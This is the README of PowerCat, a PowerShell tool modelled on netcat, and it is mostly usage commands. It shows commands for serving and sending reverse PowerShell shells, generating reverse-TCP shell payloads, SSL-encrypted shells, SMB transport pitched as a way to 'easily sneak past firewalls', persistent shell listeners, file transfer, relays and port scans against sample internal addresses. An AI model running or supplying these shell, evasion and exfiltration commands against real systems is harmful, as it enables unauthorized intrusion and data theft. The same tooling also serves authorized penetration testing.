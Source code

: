 PowerCat
====
A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat<br/>Inspired by: https://github.com/besimorhino/powercat

Installation
------------
PowerCat is packaged as a PowerShell module.  You must import the module to use its functions.
```powershell
    # Import the functions via the psd1 file:
    Import-Module PowerCat.psd1
```
#### Functions & Parameters:
```powershell    
Start-PowerCat  # Starts a listener/server.
    
    -Mode           # Defaults to Tcp, can also specify Udp or Smb.
    -Port           # The port to listen on.
    -PipeName       # Name of pipe to listen on.
	
    -SslCn	    # Common name for Ssl encrypting Tcp.
    -Relay          # Format: "<Mode>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -KeepAlive      # Restart after disconnecting.
    -Timeout        # Timeout option. Default: 60 seconds
	
Connect-PowerCat # Connects a client to a listener/server.
	
    -Mode           # Defaults to Tcp, can also specify Udp or Smb
    -RemoteIp       # IPv4 address of host to connect to.
    -Port           # The port to connect to.
    -PipeName       # Name of pipe to connect to.
	
    -SslCn	    # Common name for Ssl encrypting Tcp.
    -Relay          # Format: "<Mode>:<IP>:<Port/PipeName>"
    -Execute        # Execute a console process or powershell.
    -SendFile       # Filepath of file to send.
    -ReceiveFile    # Filepath of file to be written.
    -Disconnect     # Disconnect after connecting.
    -Timeout        # Timeout option. Default: 60 seconds
```
Basic Connections
-----------------------------------
By default, PowerCat uses TCP and reads from / writes to the console.
```powershell
    # Basic Listener:
    Start-PowerCat -Port 443
        
    # Basic Client:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443
```
File Transfer
-------------
PowerCat can be used to transfer files using the -SendFile and -ReceiveFile parameters.
```powershell
    # Send File:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -SendFile C:\pathto\inputfile
        
    # Receive File:
    Start-PowerCat -Port 443 -ReceiveFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve (Power)Shells using the -Execute parameter.
```powershell
    # Serve a shell:
    Start-PowerCat -Port 443 -Execute
        
    # Send a Shell:
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 443 -Execute
```
UDP and SMB
-----------
PowerCat supports more than sending data over TCP. 
```powershell
    # Send Data Over UDP:
    Start-PowerCat -Mode Udp -Port 8000
        
    # Send Data Over SMB (easily sneak past firewalls):
    Start-PowerCat -Mode Smb -PipeName PowerCat
```
SSL
-----------
PowerCat generates X509 certificates on-the-fly to provide SSL encryption of TCP connections. 
```powershell
    # Admin privileges are required to generate the self-signed certificate.
	
    # Serve an SSL-Encrypted (Power)Shell:
    Start-PowerCat -Mode Tcp -Port 80 -SslCn <Certificate Common Name> -Execute
        
    # Connect to an SSL encrypted Ncat listener:
    # Setup *nix with openssl & Ncat:
    # openssl req -X509 -newkey rsa:2048 -subj /CN=PowerCat -days 90 -keyout key.pem -out cert.pem
    # ncat -l -p 80 --ssl --ssl-cert cert.pem --ssl-key key.pem
	
    Connect-PowerCat -Mode Tcp -RemoteIp 10.1.1.1 -Port 80 -SslCn PowerCat 
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
```powershell
    # UDP Listener to TCP Client Relay:
    Start-PowerCat -Mode Udp -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    Start-PowerCat -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    Connect-PowerCat -RemoteIp 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to SMB Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay smb:PowerCat
```
Generate Payloads
-----------------
Payloads can be generated using the New-PowerCatPayload function. 
```powershell
    # Generate a reverse tcp payload that connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -RemoteIp 10.1.1.15 -Port 443 -Execute 
        
    # Generate a tcp payload that listens on port 8000:
    New-PowerCatPayload -Listener -Port 8000 -Execute
```
Misc Usage
----------
PowerCat can also perform port-scans, start persistent listeners, or act as a simple web server.
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { Connect-PowerCat -Mode Udp -RemoteIp 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    Start-PowerCat -Port 443 -Execute -KeepAlive
	
    # Simple Web Server:
    Start-PowerCat -Port 80 -SendFile index.html
```
Exiting
----------
In most cases, the ESC key can be used to gracefully exit PowerCat.
